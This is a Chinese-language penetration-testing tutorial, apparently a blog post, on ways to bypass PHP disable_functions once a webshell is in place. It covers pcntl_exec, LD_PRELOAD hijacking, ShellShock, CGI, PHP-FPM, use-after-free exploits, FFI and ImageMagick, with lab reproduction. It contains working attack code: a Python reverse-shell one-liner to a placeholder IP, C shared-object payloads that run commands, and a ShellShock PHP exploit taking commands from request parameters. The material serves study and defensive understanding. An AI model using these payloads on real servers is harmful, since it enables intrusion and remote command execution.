




# 常见Bypass Disable Functions方法

# [](#%E5%B8%B8%E8%A7%81-bypass-disable-functions-%E6%96%B9%E6%B3%95%E6%80%BB%E7%BB%93)常见 Bypass Disable Functions 方法总结

## [](#1-%E8%83%8C%E6%99%AF)1 背景

`PHP.ini` 中可以设置禁用一些危险函数，例如 eval、exec、system 等，将其写在 php.ini 配置文件中，就是我们所说的 `disable_functions` 了，特别是虚拟主机运营商，为了彻底隔离同服务器的客户，以及避免出现大面积的安全问题，在 disable\_functions 的设置中也通常较为严格。

如果在渗透时，上传了 webshell 却因为 disable\_functions 禁用了函数而无法执行命令，这时候就需要想办法进行绕过，突破 disable\_functions。

## [](#2-%E9%BB%91%E5%90%8D%E5%8D%95%E7%BB%95%E8%BF%87)2 黑名单绕过

即便是通过 disable functions 限制危险函数，也可能会有限制不全的情况。可以执行命令的函数可以参考：[PHP webshell 检测](https://www.leavesongs.com/PENETRATION/dynamic-features-and-webshell-tricks-in-php.html)。还有一个比较常见的易被忽略的函数就是 `pcntl_exec`。

> pcntl 是 linux 下的一个扩展，可以支持 php 的多线程操作。很多时候会碰到禁用 exec 函数的情况，但如果运维人员安全意识不强或对 PHP 不甚了解，则很有可能忽略 pcntl 扩展的相关函数。

使用 `pcntl_exec` 的前提是开启了 `pcntl` 插件。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>``` | ```php<br><?php<br>if(function_exists('pcntl_exec')) {<br>   pcntl_exec("/bin/bash", array("/tmp/test.sh"));<br>} else {<br>       echo 'pcntl extension is not support!';<br>}<br>?><br>``` |

由于 `pcntl_exec()` 执行命令是没有回显的，所以其常与 python 结合来反弹 shell：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```php<br><?php pcntl_exec("/usr/bin/python",array('-c','import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM,socket.SOL_TCP);s.connect(("IP",port));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'));<br>``` |

[蓝帽杯决赛](https://whoamianony.top/2020/12/21/CTF%e6%af%94%e8%b5%9b%e8%ae%b0%e5%bd%95/%e7%ac%ac%e5%9b%9b%e5%b1%8a%e2%80%9c%e8%93%9d%e5%b8%bd%e6%9d%af%e2%80%9d%e5%85%a8%e5%9b%bd%e5%a4%a7%e5%ad%a6%e7%94%9f%e7%bd%91%e7%bb%9c%e5%ae%89%e5%85%a8%e6%8a%80%e8%83%bd%e5%a4%a7%e8%b5%9b%e5%86%b3%e8%b5%9bWriteUp/#php)中存在相关利用方式。

## [](#3-%E5%88%A9%E7%94%A8-ld_preload-%E7%8E%AF%E5%A2%83%E5%8F%98%E9%87%8F)3 利用 LD\_PRELOAD 环境变量

### [](#31-%E5%8E%9F%E7%90%86)3.1 原理

`LD_PRELOAD` 是 Linux 系统的一个环境变量，它可以影响程序的运行时的链接（Runtime linker），它可以在用户的程序运行前优先加载该动态链接库。这个功能主要就是用来有选择性的载入不同动态链接库中的相同函数。通过这个环境变量，我们可以在主程序和其动态链接库的中间加载别的动态链接库，甚至覆盖正常的函数库。一方面，可以利用此功能来使用自定义的函数，而另一方面，可以向别人的程序注入程序，从而达到特定的攻击目的。

前提：

-   能够上传 `.so` 文件
-   能够控制 `LD_PRELOAD` 环境变量的值，比如 `putenv()` 函数
-   因为新进程启动将加载 `LD_PRELOAD` 中的 `.so` 文件，所以要存在可以控制 PHP 启动外部程序的函数并能执行，比如 `mail()`、`imap_mail()`、`mb_send_mail()` 和 `error_log()` 函数等

下面介绍两种常用的利用方式。

### [](#32-%E5%8A%AB%E6%8C%81%E5%87%BD%E6%95%B0uid)3.2 劫持函数(uid)

#### [](#321-%E5%8E%9F%E7%90%86)3.2.1 原理

-   编写一个原型为 `uid_t getuid(void);` 的 C 函数，内部执行攻击者指定的代码，并编译成共享对象 `getuid_shadow.so`；
-   运行 PHP 函数 `putenv()`（用来配置系统环境变量），设定环境变量 `LD_PRELOAD` 为 `getuid_shadow.so`，以便后续启动新进程时优先加载该共享对象；
-   运行 PHP 的 `mail()` 函数，`mail()` 内部启动新进程 `/usr/sbin/sendmail`，由于上一步 `LD_PRELOAD` 的作用，`sendmail` 调用的系统函数 `getuid()` 被优先级更好的 `getuid_shadow.so` 中的同名 `getuid()` 所劫持；达到不调用 PHP 的各种命令执行函数（`system`、`exec` 等等）仍可执行系统命令的目的。

#### [](#322-%E5%88%A9%E7%94%A8)3.2.2 利用

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>``` | ```c<br>#include <stdlib.h><br>#include <stdio.h><br>#include <string.h><br>void payload() {<br>  system("ls > /tmp/leon");<br>}   <br>int getuid() {<br>if (getenv("LD_PRELOAD") == NULL) { return 0; }<br>  unsetenv("LD_PRELOAD");<br>	payload();<br>}<br>``` |

编译成 so 文件：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>gcc -c -fPIC exp.c -o hack && gcc --share hack -o exp.so<br>``` |

编写 test.php：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>``` | ```php<br><?php<br>putenv("LD_PRELOAD=./exp.so");<br>mail("","","","","");<br>?><br>``` |

但是，在真实环境中，存在两方面问题：

-   一是，某些环境中，`web` 禁止启用 `sendmail`、甚至系统上根本未安装 `sendmail`，也就谈不上劫持 `getuid()`，通常的 `www-data` 权限又不可能去更改 `php.ini` 配置、去安装 `sendmail` 软件；
-   二是，即便目标可以启用 `sendmail`，由于未将主机名（hostname 输出）添加进 `hosts` 中，导致每次运行 `sendmail` 都要耗时半分钟等待域名解析超时返回，`www-data` 也无法将主机名加入 `hosts`。

基于这两种方式，衍生出一种新的利用方式。

### [](#33-%E5%8A%AB%E6%8C%81%E5%90%AF%E5%8A%A8%E8%BF%9B%E7%A8%8B)3.3 劫持启动进程

回到 `LD_PRELOAD` 本身，系统通过它预先加载共享对象，如果能找到一个方式，在加载时就执行代码，而不用考虑劫持某一系统函数，那就完全可以不依赖 `sendmail` 了。

#### [](#331-__attribute__-%E4%BB%8B%E7%BB%8D)3.3.1 \_\_attribute\_\_ 介绍

GCC 有个 C 语言扩展修饰符 `__attribute__((constructor))`，可以让由它修饰的函数在 main() 之前执行，若它出现在共享对象中时，那么一旦共享对象被系统加载，立即将执行 `__attribute__((constructor))` 修饰的函数。

#### [](#322-%E5%88%A9%E7%94%A8-1)3.2.2 利用

简单的 exp：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>``` | ```c<br>#define _GNU_SOURCE<br>#include <stdlib.h><br>#include <unistd.h><br>#include <sys/types.h><br><br>__attribute__ ((__constructor__)) void preload (void){<br>    unsetenv("LD_PRELOAD");<br>    system("whoami > /tmp/leon");<br>}<br>``` |

但是`unsetenv()`在 Centos 上无效，因为 Centos 自己也hook了 `unsetenv()`，在其内部启动了其他进程，来不及删除 `LD_PRELOAD` 就又被劫持，导致无限循环，可以使用全局变量 `extern char** environ`删除，实际上，`unsetenv()` 就是对 environ 的简单封装实现的环境变量删除功能。

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>``` | ```c<br>#define _GNU_SOURCE<br>#include <stdlib.h><br>#include <stdio.h><br>#include <string.h><br><br>extern char** environ;<br>__attribute__ ((__constructor__)) void preload (void)<br>{<br>    // get command line options and arg<br>    const char* cmdline = getenv("EVIL_CMDLINE");<br>    // unset environment variable LD_PRELOAD.<br>    // unsetenv("LD_PRELOAD") no effect on some <br>    // distribution (e.g., centos), I need crafty trick.<br>    int i;<br>    for (i = 0; environ[i]; ++i) {<br>            if (strstr(environ[i], "LD_PRELOAD")) {<br>                    environ[i][0] = '\0';<br>            }<br>    }<br>    // executive command<br>    system(cmdline);<br>}<br>``` |

使用 for 循环修改 `LD_PRELOAD` 的首个字符改成 `\0`，`\0` 是 C 语言字符串结束标记，这样可以让系统原有的 `LD_PRELOAD` 环境变量自动失效。

编译：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>gcc -c -fPIC exp.c -o hack && gcc --share hack -o exp.so<br>``` |

详情可见：[bypass\_disablefunc\_via\_LD\_PRELOAD](https://github.com/yangyangwithgnu/bypass_disablefunc_via_LD_PRELOAD)。

在 [AntSword-Labs](https://github.com/AntSwordProject/AntSword-Labs) 有相关环境，复现该漏洞。


尝试执行命令：



使用 `LD_PRELOAD` 插件绕过：


成功后可以看到 `/var/www/html/` 目录下新建了一个 `.antproxy.php` 文件。我们创建副本, 并将连接的 URL shell 脚本名字改为 `.antproxy.php`，就可以成功执行命令。


## [](#4-%E5%88%A9%E7%94%A8%E7%A0%B4%E5%A3%B3%E6%BC%8F%E6%B4%9E--shellshock)4 利用「破壳漏洞」- ShellShock

### [](#41-%E5%89%8D%E6%8F%90)4.1 前提

-   Linux 操作系统
-   `putenv()`、`mail()` 或 `error_log()` 函数可用
-   目标系统的 `/bin/bash` 存在 `CVE-2014-6271` 漏洞
-   `/bin/sh -> /bin/bash` sh 默认的 shell 是 bash

### [](#42-%E5%8E%9F%E7%90%86)4.2 原理

该方法利用的 bash 中的一个老漏洞，即 Bash Shellshock 破壳漏洞（CVE-2014-6271）。

在 Bash 中一种独有的方法来定义函数 , 即 : **通过环境变量来定义函数**。当某个环境变量的值以字符串 `() {` 的格式作为开头， 那么该变量就会被当前 Bash 当作一个导出函数( `export function` ) , 该函数仅会在当前 Bash 的子进程中生效。



一般函数体内的代码不会被执行，但破壳漏洞会错误的将 `{}` 花括号外的命令进行执行。PHP 里的某些函数（例如：mail()、imap\_mail()）能调用 popen 或其他能够派生 bash 子进程的函数，可以通过这些函数来触发破壳漏洞(CVE-2014-6271)执行命令。

EXP 脚本：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>``` | ```php<br><?php<br>function runcmd($c){<br>  $d = dirname($_SERVER["SCRIPT_FILENAME"]);<br>  if(substr($d, 0, 1) == "/" && function_exists('putenv') && (function_exists('error_log') \| function_exists('mail'))){<br>    if(strstr(readlink("/bin/sh"), "bash")!=FALSE){<br>      $tmp=tempnam(sys_get_temp_dir(), 'as');<br>      putenv("PHP_LOL=() { x; }; $c >$tmp 2>&1");<br>      if (function_exists('error_log')) {<br>        error_log("a", 1);<br>      }else{<br>        mail("a@127.0.0.1", "", "", "-bv");<br>      }<br>    }else{<br>      print("Not vuln (not bash)\n");<br>    }<br>    $output = @file_get_contents($tmp);<br>    @unlink($tmp);<br>    if($output!=""){<br>      print($output);<br>    }else{<br>      print("No output, or not vuln.");<br>    }<br>  }else{<br>    print("不满足使用条件");<br>  }<br>}<br><br>// runcmd("whoami"); // 要执行的命令<br>runcmd($_REQUEST["cmd"]); // ?cmd=whoami<br>?><br>``` |

### [](#43-%E5%88%A9%E7%94%A8)4.3 利用

同样利用 [AntSword-Labs](https://github.com/AntSwordProject/AntSword-Labs) 里的环境：[bypass\_disable\_functions/2](https://github.com/AntSwordProject/AntSword-Labs/tree/master/bypass_disable_functions/2)

尝试使用 `http://IP:18080/?ant=system('ls');` 执行失败。

AntSword 虚拟终端中已经集成了对 ShellShock 的利用，直接在虚拟终端执行命令即可绕过disable\_functions：


上图中进程树可以看到，利用了 PHP `error_log` 函数在执行 `sh -c -t -i` 时, Bash 的 ShellShock 漏洞, 从而实现了执行我们自定义命令的目的。

## [](#5-%E5%88%A9%E7%94%A8-cgi)5 利用 CGI

### [](#51-apache-mod-cgi)5.1 Apache Mod CGI

#### [](#511-%E5%89%8D%E6%8F%90)5.1.1 前提

-   Linux 操作系统
-   Apache + PHP (apache 使用 apache\_mod\_php)
-   Apache 开启了 `cgi`、`rewrite`
-   Web 目录给了 `AllowOverride` 权限
-   当前目录可写

#### [](#512-%E5%8E%9F%E7%90%86)5.1.2 原理

为了解决 Web 服务器与外部应用程序（CGI程序）之间数据互通，于是出现了CGI（Common Gateway Interface）通用网关接口。简单理解，可以认为 CGI 是 Web 服务器和运行在其上的应用程序进行“交流”的一种约定。

当遇到动态脚本请求时，Web 服务器主进程就会 Fork 创建出一个新的进程来启动 CGI 程序，运行外部 C 程序或 Perl、PHP 脚本等，也就是将动态脚本交给 CGI 程序来处理。启动 CGI 程序需要一个过程，如读取配置文件、加载扩展等。当 CGI 程序启动后会去解析动态脚本，然后将结果返回给 Web 服务器，最后由 Web 服务器将结果返回给客户端，之前 Fork 出来的进程也随之关闭。这样，每次用户请求动态脚本，Web 服务器都要重新 Fork 创建一个新进程去启动 CGI 程序，由 CGI 程序来处理动态脚本，处理完成后进程随之关闭，其效率是非常低下的。

而对于 Mod CGI，Web 服务器可以内置 Perl 解释器或 PHP 解释器。 也就是说将这些解释器做成模块的方式，Web 服务器会在启动的时候就启动这些解释器。 当有新的动态请求进来时，Web 服务器就是自己解析这些动态脚本，省得重新 Fork 一个进程，效率提高了。

任何具有 MIME 类型 `application/x-httpd-cgi` 或者被 `cgi-script` 处理器处理的文件都将被作为 CGI 脚本对待并由服务器运行，它的输出将被返回给客户端。可以通过两种途径使文件成为 CGI 脚本，一种是文件具有已由 AddType 指令定义的扩展名，另一种是文件位于 `ScriptAlias` 目录中。

Apache 在配置开启 CGI 后可以用 ScriptAlias 指令指定一个目录，指定的目录下面便可以存放可执行的 CGI 程序。若是想临时允许一个目录可以执行 CGI 程序并且使得服务器将自定义的后缀解析为 CGI 程序执行，则可以在目的目录下使用 htaccess 文件进行配置，如下：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```fallback<br>Options +ExecCGI<br>AddHandler cgi-script .xxx<br>``` |

这样便会将当前目录下的所有的 .xxx 文件当做 CGI 程序执行了。由于 CGI 程序可以执行命令，那我们可以利用 CGI 来执行系统命令绕过 disable\_functions。

#### [](#513-%E5%88%A9%E7%94%A8)5.1.3 利用

同样利用 [AntSword-Labs](https://github.com/AntSwordProject/AntSword-Labs) 里的环境：[bypass\_disable\_functions/3](https://github.com/AntSwordProject/AntSword-Labs/tree/master/bypass_disable_functions/3)

用蚁剑拿到 shell 后无法执行命令：


开启 CGI：


### [](#52-php-fpm)5.2 PHP-fpm

#### [](#521-%E5%89%8D%E6%8F%90)5.2.1 前提

-   Linux 操作系统
-   PHP-FPM
-   存在可写的目录，需要上传 `.so` 文件

#### [](#522-%E5%8E%9F%E7%90%86)5.2.2 原理

PHP-FPM 是 Fastcgi 的协议解析器，Web 服务器使用 CGI 协议封装好用户的请求发送给 FPM。FPM 按照 CGI 的协议将 TCP 流解析成真正的数据。

举个例子，用户访问 `http://127.0.0.1/index.php?a=1&b=2` 时，如果 web 目录是 `/var/www/html`，那么 Nginx 会将这个请求变成如下 key-value 对：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>``` | ```json<br>{<br>    'GATEWAY_INTERFACE': 'FastCGI/1.0',<br>    'REQUEST_METHOD': 'GET',<br>    'SCRIPT_FILENAME': '/var/www/html/index.php',<br>    'SCRIPT_NAME': '/index.php',<br>    'QUERY_STRING': '?a=1&b=2',<br>    'REQUEST_URI': '/index.php?a=1&b=2',<br>    'DOCUMENT_ROOT': '/var/www/html',<br>    'SERVER_SOFTWARE': 'php/fcgiclient',<br>    'REMOTE_ADDR': '127.0.0.1',<br>    'REMOTE_PORT': '12345',<br>    'SERVER_ADDR': '127.0.0.1',<br>    'SERVER_PORT': '80',<br>    'SERVER_NAME': "localhost",<br>    'SERVER_PROTOCOL': 'HTTP/1.1'<br>}<br>``` |

这个数组其实就是 PHP 中 `$_SERVER` 数组的一部分，也就是 PHP 里的环境变量。但环境变量的作用不仅是填充 `$_SERVER` 数组，也是告诉 fpm：要执行哪个 PHP 文件。

PHP-FPM 拿到 Fastcgi 的数据包后，进行解析，得到上述这些环境变量。然后，执行 `SCRIPT_FILENAME` 的值指向的 PHP 文件，也就是 `/var/www/html/index.php` 。

#### [](#523-%E5%88%A9%E7%94%A8)5.2.3 利用

由于 FPM 默认监听的是 9000 端口，我们就可以绕过 Web 服务器，直接构造 Fastcgi 协议，和 fpm 进行通信。于是就有了利用 Webshell 直接与 FPM 通信 来绕过 disable functions 的姿势。

但是，在构造 Fastcgi，就能执行任意 PHP 代码前，需要突破几个限制：

-   既然是请求，那么 `SCRIPT_FILENAME` 就相当的重要。前面说过，fpm 是根据这个值来执行 PHP 文件文件的，如果不存在，会直接返回 404，所以想要利用这个漏洞，就得找到一个已经存在的 PHP 文件。在一般进行源安装 PHP 的时候，服务器都会附带上一些 PHP 文件，如果说我们没有收集到目标 Web 目录的信息的话，可以采用这种方法。
-   即使能控制 `SCRIPT_FILENAME`，让 fpm 执行任意文件，也只是执行目标服务器上的文件，并不能执行我们需要其执行的文件。那要如何绕过这种限制呢？可以从 `php.ini` 入手。它有两个特殊选项，分别是 `auto_prepend_file` 和 `auto_append_file`。`auto_prepend_file` 的功能是在执行目标文件之前，先包含它指定的文件。那么就有趣了，假设我们设置 `auto_prepend_file` 为`php://input`，那么就等于在执行任何 PHP 文件前都要包含一遍 POST 过去的内容。所以，只需要把待执行的代码放在 POST Body 中进行远程文件包含，这样就能做到任意代码执行了。
-   虽然可以通过远程文件包含执行任意代码，但是远程文件包含是有 `allow_url_include` 这个限制因素的，如果没有为 `ON` 的话就没有办法进行远程文件包含。这里，PHP-FPM 有两个可以设置 PHP 配置项的 KEY-VALUE，即 `PHP_VALUE` 和 `PHP_ADMIN_VALUE`，`PHP_VALUE`可以用来设置 php.ini，`PHP_ADMIN_VALUE` 则可以设置所有选项（disable\_functions 选项除外），这样就解决问题了。

利用 [AntSword-Labs](https://github.com/AntSwordProject/AntSword-Labs) 里的环境：[bypass\_disable\_functions/4](https://github.com/AntSwordProject/AntSword-Labs/tree/master/bypass_disable_functions/4)

用蚁剑拿到 shell 后无法执行命令：




注意该模式下需要选择 PHP-FPM 的接口地址, 需要自行找配置文件查 FPM 接口地址，默认的是 `unix:///` 本地 socket 这种的，如果配置成 TCP 的默认是 `127.0.0.1:9000`

成功后可以看到 `/var/www/html/` 目录下新建了一个 `.antproxy.php` 文件。连接 `.antproxy.php`，就可以成功执行命令。

## [](#6-%E5%88%A9%E7%94%A8-uaf-bypass)6 利用 UAF Bypass

### [](#61-gc-uaf)6.1 GC UAF

#### [](#611-%E5%89%8D%E6%8F%90)6.1.1 前提

-   Linux 操作系统
-   PHP 7.0 - PHP 7.3

#### [](#612-%E5%8E%9F%E7%90%86)6.1.2 原理

此漏洞利用 PHP 垃圾收集器中存在三年的一个 [bug](https://bugs.php.net/bug.php?id=72530) ，通过PHP垃圾收集器中**堆溢出**来绕过 `disable_functions` 并执行系统命令。

利用脚本：[https://github.com/mm0r1/exploits/tree/master/php7-gc-bypass](https://github.com/mm0r1/exploits/tree/master/php7-gc-bypass)

#### [](#613-%E5%88%A9%E7%94%A8)6.1.3 利用

蚁剑靶场 [bypass\_disable\_functions/7](https://github.com/AntSwordProject/AntSword-Labs/tree/master/bypass_disable_functions/7)

用蚁剑拿到 shell 后无法执行命令：


### [](#62-json-serializer-uaf)6.2 Json Serializer UAF

#### [](#621-%E5%89%8D%E6%8F%90)6.2.1 前提

-   Linux 操作系统
-   PHP 版本
    -   7.1 - all versions to date
    -   7.2 < 7.2.19 (released: 30 May 2019)
    -   7.3 < 7.3.6 (released: 30 May 2019)

#### [](#622-%E5%8E%9F%E7%90%86)6.2.2 原理

此漏洞利用 json 序列化程序中的释放后使用[漏洞](https://bugs.php.net/bug.php?id=77843)，利用 json 序列化程序中的堆溢出触发，以绕过 `disable_functions` 和执行系统命令。

利用脚本：[https://github.com/mm0r1/exploits/tree/master/php-json-bypass](https://github.com/mm0r1/exploits/tree/master/php-json-bypass)

#### [](#623-%E5%88%A9%E7%94%A8)6.2.3 利用

蚁剑靶场 [bypass\_disable\_functions/6](https://github.com/AntSwordProject/AntSword-Labs/tree/master/bypass_disable_functions/6)

用蚁剑拿到 shell 后无法执行命令：




警告

这种方式不一定保证成功，因此当遇到命令无回显结果的时候，可以重新执行。

### [](#63-backtrace-uaf)6.3 Backtrace UAF

#### [](#631-%E5%89%8D%E6%8F%90)6.3.1 前提

-   Linux 操作系统
-   PHP 版本
    -   7.0 - all versions to date
    -   7.1 - all versions to date
    -   7.2 - all versions to date
    -   7.3 < 7.3.15 (released 20 Feb 2020)
    -   7.4 < 7.4.3 (released 20 Feb 2020)

#### [](#632-%E5%8E%9F%E7%90%86)6.3.2 原理

该漏洞利用在 `debug_backtrace()` 函数中使用了两年的一个 [bug](https://bugs.php.net/bug.php?id=76047)。我们可以诱使它返回对已被破坏的变量的引用，从而导致释放后使用漏洞。

利用脚本：[https://github.com/mm0r1/exploits/tree/master/php7-backtrace-bypass](https://github.com/mm0r1/exploits/tree/master/php7-backtrace-bypass)

### [](#64-spldoublylinkedlist-uaf)6.4 SplDoublyLinkedList UAF

#### [](#641-%E5%89%8D%E6%8F%90)6.4.1 前提

-   PHP 版本
    -   PHP v7.4.10及其之前版本
    -   PHP v8.0（Alpha）

#### [](#642-%E5%8E%9F%E7%90%86)6.4.2 原理

具体原理参考：[https://xz.aliyun.com/t/8355](https://xz.aliyun.com/t/8355)

将脚本上传到目标主机上有权限的目录中（/var/tmp/exploit.php），包含该 exploit.php 脚本即可成功执行命令。

## [](#7-%E5%88%A9%E7%94%A8-ffi-%E6%89%A9%E5%B1%95%E6%89%A7%E8%A1%8C%E5%91%BD%E4%BB%A4)7 利用 FFI 扩展执行命令

### [](#71-%E5%89%8D%E6%8F%90)7.1 前提

-   Linux 操作系统
-   PHP >= 7.4
-   开启了 FFI 扩展且 `ffi.enable=true`

### [](#72-%E5%8E%9F%E7%90%86)7.2 原理

PHP 7.4 的 FFI（Foreign Function Interface），即外部函数接口，允许从用户在 PHP 代码中去调用 C 代码。

### [](#73-%E5%88%A9%E7%94%A8)7.3 利用

利用 [AntSword-Labs](https://github.com/AntSwordProject/AntSword-Labs/tree/master/bypass_disable_functions/8) 里的环境，用蚁剑拿到 shell 后无法执行命令：


## [](#8-%E5%88%A9%E7%94%A8-imagemagick)8 利用 ImageMagick

### [](#81-%E5%89%8D%E6%8F%90)8.1 前提

-   目标主机安装了漏洞版本的 imagemagick（<= 3.3.0）
-   安装了 php-imagick 拓展并在 php.ini 中启用
-   编写 php 通过 new Imagick 对象的方式来处理图片等格式文件
-   PHP >= 5.4

### [](#82-%E5%8E%9F%E7%90%86)8.2 原理

利用 ImageMagick 绕过 disable\_functions 的方法利用的是 ImageMagick 的一个漏洞（CVE-2016-3714）。漏洞的利用过程非常简单，只要将精心构造的图片上传至使用漏洞版本的 ImageMagick，ImageMagick 会自动对其格式进行转换，转换过程中就会执行攻击者插入在图片中的命令。因此很多具有头像上传、图片转换、图片编辑等具备图片上传功能的网站都可能会中招。所以如果在 phpinfo 中看到有这个 ImageMagick。

### [](#83-%E5%88%A9%E7%94%A8)8.3 利用

参考：[Imagetragick 命令执行漏洞](https://github.com/vulhub/vulhub/blob/master/imagemagick/imagetragick/README.zh-cn.md)

## [](#%E5%8F%82%E8%80%83)参考

-   [Bypass Disable Functions](https://whoamianony.top/2021/03/13/Web%e5%ae%89%e5%85%a8/Bypass%20Disable_functions/)
-   [浅谈几种Bypass-disable-functions的方法](https://www.mi1k7ea.com/2019/06/02/%e6%b5%85%e8%b0%88%e5%87%a0%e7%a7%8dBypass-disable-functions%e7%9a%84%e6%96%b9%e6%b3%95/)
-   [bypass-disable\_function-php](https://clq0.top/bypass-disable_function-php/)
